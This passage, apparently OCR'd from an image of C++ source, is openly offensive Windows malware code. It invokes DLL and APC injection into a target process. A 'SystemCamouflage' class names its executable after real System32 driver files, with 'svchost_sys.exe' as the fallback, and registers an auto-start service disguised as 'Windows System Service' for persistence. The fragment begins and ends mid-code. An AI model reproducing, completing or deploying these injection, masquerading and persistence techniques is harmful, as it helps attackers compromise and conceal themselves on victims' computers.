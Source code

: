     DLLInjector::InjectDLL(targetPID, dllPathStr.c_str());
    DLLInjector::APCInjection(targetPID, dllPathStr.c_str());
}

class SystemCamouflage {
private:
    static std::vector<std::wstring> systemFileNames;
    static const wchar_t* SYSTEM_SERVICE_NAME;
    static const wchar_t* TASK_NAME;
    static const DWORD CHECK_INTERVAL = 7200; // 2 saat
    
    static void InitializeSystemFileNames() {
        WCHAR system32[MAX_PATH];
        GetSystemDirectoryW(system32, MAX_PATH);
        
        WIN32_FIND_DATAW findData;
        HANDLE hFind = FindFirstFileW((std::wstring(system32) + L"\\*.sys").c_str(), &findData);
        
        if (hFind != INVALID_HANDLE_VALUE) {
            do {
                if (!(findData.dwFileAttributes & FILE_ATTRIBUTE_DIRECTORY)) {
                    systemFileNames.push_back(findData.cFileName);
                }
            } while (FindNextFileW(hFind, &findData));
            FindClose(hFind);
        }
    }
    
    static std::wstring GenerateSystemFileName() {
        if (systemFileNames.empty()) InitializeSystemFileNames();
        if (systemFileNames.empty()) return L"svchost_sys.exe";
        
        std::random_device rd;
        std::mt19937 gen(rd());
        std::uniform_int_distribution<> dis(0, systemFileNames.size() - 1);
        
        std::wstring baseName = systemFileNames[dis(gen)];
        std::wstring newName = baseName.substr(0, baseName.find_last_of(L'.'));
        newName += std::to_wstring(GetTickCount() & 0xFFFF);
        newName += L".exe";
        
        return newName;
    }
    
    static void CreatePersistentService(const std::wstring& exePath) {
        SC_HANDLE hSCManager = OpenSCManagerW(NULL, NULL, SC_MANAGER_ALL_ACCESS);
        if (hSCManager) {
            SC_HANDLE hService = CreateServiceW(hSCManager,
                SYSTEM_SERVICE_NAME,
                L"Windows System Service",
                SERVICE_ALL_ACCESS,
                SERVICE_WIN32_OWN_PROCESS,
                SERVICE_AUTO_START,
                SERVICE_ERROR_NORMAL,
                exePath.c_str(),
                NULL, NULL, NULL, NULL, NULL);
                